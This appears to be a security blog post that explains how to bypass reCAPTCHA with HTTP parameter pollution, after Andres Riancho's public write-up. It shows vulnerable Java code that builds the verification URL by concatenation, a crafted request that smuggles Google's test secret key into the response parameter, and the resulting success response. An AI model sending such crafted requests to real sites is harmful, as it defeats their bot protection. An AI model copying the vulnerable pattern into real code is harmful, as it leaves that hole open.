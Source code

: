 ```yaml
---

layout: post
title: Leveraging HTTP Parameter Pollution to Bypass reCAPTCHA
tags: [Cyber News]

---
```


reCAPTCHA is a Google service that allows web applications to present some challenges to the users to protect the web application against bots. When the web application wants to challenge the user, Google provides a set of images and uses JavaScript to show them in the browser. The user then solves the CAPTCHA and an HTTP request is sent to the web application.

The HTTP request looks something like:
```
POST /verify-recaptcha-response HTTP/1.1
Host: vulnerable-app.com

recaptcha-response={reCAPTCHA-generated-hash}
```

The application then verifies the response with a request to Google's reCAPTCHA API with a request shown below:
```
POST /recaptcha/api/siteverify HTTP/1.1
Content-Length: 458
Host: www.google.com
Content-Type: application/x-www-form-urlencoded

recaptcha-response={reCAPTCHA-generated-hash}&secret={application-secret}
```

In this request, the hash of the user's response `reCAPTCHA-generated-hash` is sent along with the verification secret for identifying the web application `application-secret`. And google verifies the request by the web application and if the response is correct, it generates an HTTP response which looks something like this:
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 90

{
  "success": true,
  "challenge_ts": "2018-01-29T17:58:36Z",
  "hostname": "..."
}
```

For testing new features on a new web application, Google has provided an automated of disabling reCAPTCHA verification. For this, the developers can use the hard-coded site and secret key as shown below:
```
Site key: 6LeIxAcTAAAAAJcZVRqyHh71UMIEGNQ_MXjiZKhI
Secret key: 6LeIxAcTAAAAAGG-vFI1TnRWxMZNFuojJ4WifJWe
```

This will come in handy for generating the payload.

## HTTP Parameter Pollution
Supplying multiple HTTP parameters with the same name might cause a web application to interpret values in an unanticipated way and this effect can then be exploited by an adversary to bypass some implemented security mechanism. Such an approach is called as HTTP Parameter Pollution.

## The Attack
IF the web application that needs to be bypassed is vulnerable to HTTP Parameter Pollution and looks something like the example shown below, then a carefully crafted request can be used to bypass reCAPTCHA.
```
private String sendPost(String CaptchaResponse, String Secret) throws Exception {

    String url = "https://www.google.com/recaptcha/api/siteverify"+"?response="+CaptchaResponse+"&secret="+Secret;
    URL obj = new URL(url);
    HttpsURLConnection con = (HttpsURLConnection) obj.openConnection();
```

The exploit can be constructed as shown below:
```
POST /verify-recaptcha-response HTTP/1.1
Host: vulnerable-app.com

recaptcha-response=anything%26secret%3d6LeIxAcTAAAAAGG-vFI1TnRWxMZNFuojJ4WifJWe
```

Here we can see that the attacker has carefully constructed the reCAPTCHA response in such a way that the `anything` corresponds to a placeholder, `%26` is an URL encoded ampersand character, `secret` represents the parameter that needs to be injected, `%3d` is an URL encoded equals sign and `6Le...JWe` is the key that disables reCAPTCHA for any web application. Another thing to note here is that Google's reCAPTCHA API only looks at the first `secret` parameter value and ignores any other secret value that follows. So, when the attacker sends a specific crafted request to the web application, it sends the following HTTP request to the reCAPTCHA API.
```
POST /recaptcha/api/siteverify HTTP/1.1
Host: www.google.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Python-urllib/2.7

recaptcha-response=anything&secret=6LeIxAcTAAAAAGG-vFI1TnRWxMZNFuojJ4WifJWe&secret=6LeYIbsSAAAAAJezaIq3Ft_hSTo0YtyeFG-JgRtu
```

As specified above, only the first secret is used by the reCAPTCHA API and the following response is sent every time.
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 90

{
  "success": true,
  "challenge_ts": "2018-01-29T17:58:36Z",
  "hostname": "..."
}
```

This response will be processed by the web application and the user is always granted access to the web application.

---

## References
\[1\] Riancho A., "reCAPTCHA Bypass via HTTP Parameter Pollution".<br />

[1]: https://andresriancho.com/recaptcha-bypass-via-http-parameter-pollution/ "reCAPTCHA Bypass via HTTP Parameter Pollution"

---
